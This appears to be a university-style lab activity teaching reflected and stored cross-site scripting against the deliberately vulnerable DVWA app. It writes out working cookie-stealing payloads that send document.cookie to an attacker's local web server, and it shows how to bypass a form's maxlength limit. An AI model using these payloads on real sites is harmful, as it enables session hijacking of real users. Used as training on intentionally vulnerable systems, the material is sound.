 ```yaml
---
title: "Activity: XSS"
description: A hands-on activity exploring XSS with DVWA
published: true
include_toc: true
slug: xss
---
```


# Setup

For this activity, run virt-manager and start your Metasploitable VM. Browse to <http://192.168.56.102/dvwa> from a browser with Kali and log with username `admin` and password `password`.

**Important:** On the menu on the left, select "DVWA Security" and change the security level to "low".

Select SQL Injection, and click "View Help" and "View Source" to understand what SQL query is being used.

---

**Objective:** Run your own JavaScript in another user's browser, use this to steal the cookie of a logged in user.


# XSS -- Reflected

In DVWA, select `XSS reflected`.



## Be annoying

Enter the following tag in the `name` field

```html
<h1>Hello world!</h1>
```

This shows that the field is rendering HTML. Therefore, we could try using the script tag.

```html
<script>alert("You have been hacked!")</script>
```

View the source code to see that the fully formed `<script>` tags are there.

This is annoying, but could we do something dangerous, like steal the authentication cookie so we could log in as the user?

## Steal a cookie

Enter the following into the `name` field

```html
<script>alert(document.cookie)</script>
```

Now we see the cookie. We could send a social engineering attack to the user to have them click on a link, like this (URL copied from result):

```html
http://127.0.0.1:42001/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E#
```

This would `alert` the victim's cookie in the victim's browser, but the cookie would only displayed on the victim's computer. We can change that by running our own webserver and referencing our server in our URL. Run the following in a shell on kali to start a web server on Kali on port 8888:

```shell
python3 -m http.server 8888
```

And craft a new attack by entering the following into the `name` field:

```html
<script>window.location='http://127.0.0.1:8888/?cookie='+ document.cookie</script>
```

This sent the cookie to us, the attacker. You could copy the new URL from the browser and send it to a victim, to get their cookie.

{% include lab-image.html image='python-webserver-dvwa-xss.png' %}

This approach works, but it could be confusing or alarming to the victim because the page is redirected because of the `window.location` script instruction. To avoid this redirection, we could use different method of using an `img` instead.

## Use HTML `img` `onerror` attribute

The following site shows a list of other tags and events we could use besides the script tag.

<https://portswigger.net/web-security/cross-site-scripting/cheat-sheet>

{% include lab-image.html image='portswigger-xss-cheat-sheet.png' %}

We could load a non-existent image and run our code within its `onerror` event:

```html
<img src=x onerror=this.src='http://127.0.0.1:8888/?c='+document.cookie>
```

Submit the above into the `name` field of the `XSS Reflected` page in order to get a new URL. Then, verify that this cookie is obtained in the Python HTTP server log. This works, but a drawback is that it constantly refreshes the page.

Alternatively, this page will load an actual icon (but with 0-size width and height to be invisible to the user) so that page will not refresh (all one line):

```html
<img src=http://192.168.56.102/dvwa/favicon.ico width=0 height=0 onload=this.src='http://127.0.0.1:8888/?c='+document.cookie>
```

# XSS -- stored

Visit the `XSS Stored` page of DVWA. Enter the following line into the comment field:

```html
<script>alert("You have been hacked!")</script>
```

Now navigate to a different page and come back to the XSS Stored page. See that the message is repeated every time the page is loaded. Any visitor who visits the page will receive our XSS attack.

Now try our cookie-stealing attack from before. Enter the following into the "comment" field:

```html
<img src=http://192.168.56.102/dvwa/favicon.ico width=0 height=0 onload=this.src='http://127.0.0.1:8888/?c='+document.cookie>
```

Except, there is a problem -- the comment field has truncated the input: 

{% include lab-image.html image='dvwa-comment-truncated.png' %}

However, this restriction is imposed by the web browser, and therefore, we can bypass it. Right-click the comment field and select "Inspect element":

{% include lab-image.html image='dvwa-inspect-element.png' %}

This will highlight the comment field in the Document Object Model (DOM) held by the browser for this page. Double-click the `maxlength` attribute on the highlighted `textarea` element. Delete the value between the double-quotes. 

{% include lab-image.html image='dvwa-edit-maxlength.png' %}

Press `enter` to commit the change. Then, attempt again to paste in our cookie-stealing attack. It should now be possible to post the entire attack to the "comment" box:

{% include lab-image.html image='dvwa-maxlength-edited.png' %}

Enter a "name" for your malicious post, and submit the comment. The page should reload, and your attack should now work for anyone who visits the page. Confirm this by checking whether your python http server received the cookie for the page refresh.







<!-- # XSS -- DOM   -->

<!-- This requires a newer version of DVWA. Available via docker... -->

<!--

Visit the `XSS DOM` page of DVWA.

Show that you can change the default language, which changes a URL parameter. 

In the URL, change the parameter value from "German" to:

```html
http://127.0.0.1:42001/vulnerabilities/xss_d/?default=<script>alert("You have been hacked!")</script>
````

Then try:

```html
http://127.0.0.1:42001/vulnerabilities/xss_d/?default=<script>window.location='http://127.0.0.1:8888/?cookie='+ document.cookie</script>
``` 

-->


# Learn more

To learn more, experiment with this extensive list of XSS filter evasion techniques from OWASP:

<https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html>


